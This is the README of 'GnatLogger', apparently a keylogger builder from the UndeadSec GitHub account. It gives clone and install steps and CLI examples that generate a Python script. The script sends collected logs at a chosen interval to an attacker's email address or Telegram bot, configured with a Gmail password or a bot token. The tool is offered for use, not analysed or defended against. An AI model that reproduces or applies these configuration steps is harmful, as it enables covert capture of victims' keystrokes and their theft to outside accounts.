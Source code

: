 # GnatLogger

### How to install GnatLogger  
`git clone https://github.com/UndeadSec/GnatLogger.git`

`python3 -m venv env`

Activate environment  

`.\env\Scripts\activate.bat`

Install requirements  

`pip install -r requirements.txt`

### Using GnatLogger   

[CLI] Generate script python with your configs using option email

`python gnatlogger.py --force -e youremail@gmail.com -p emailpassword -i 30 -to sentoemail@gmail.com --enableemail`

`--force` Use this option to generate the file without all the necessary arguments.

[CLI] Generate using option Telegram

`python gnatlogger.py --force --uid 990911 -k 203040:YOUTOKENXJK$3 --interval 30 --enabletelegram `  

[Interactive mode]

Just use `python gnatlogger.py` without `--force`

You can use the cli parameters for use in interactive mode

`python gnatlogger.py --uid 990911 -k 203040:YOUTOKENXJK$3 --interval 30`

Then finish setting the variables in interactive mode

### Usage  

```
usage: gnatlogger.py [-h] [-e EMAIL] [-p PASSWORD] [-i INTERVAL] [-t TO] [-d DEBUG] [-u UID] [-k TOKEN]
                     [--enabletelegram] [--enableemail] [--force]

Set configs to gerenerate a new file

options:  
  -h, --help            show this help message and exit
  -e EMAIL, --email EMAIL
                        set a new email
  -p PASSWORD, --password PASSWORD
                        set a new password
  -i INTERVAL, --interval INTERVAL
                        set a new interval
  -t TO, --to TO        set send to email
  -d DEBUG, --debug DEBUG
                        Enable debug loggs on gnatlogger script, use DEBUG
  -u UID, --uid UID     uid telegram @myidbot
  -k TOKEN, --token TOKEN
                        token bot telegram
  --enabletelegram      enable telegram as send form
  --enableemail         enable email as send form
  --force               disable interactive and force generate file
  ```
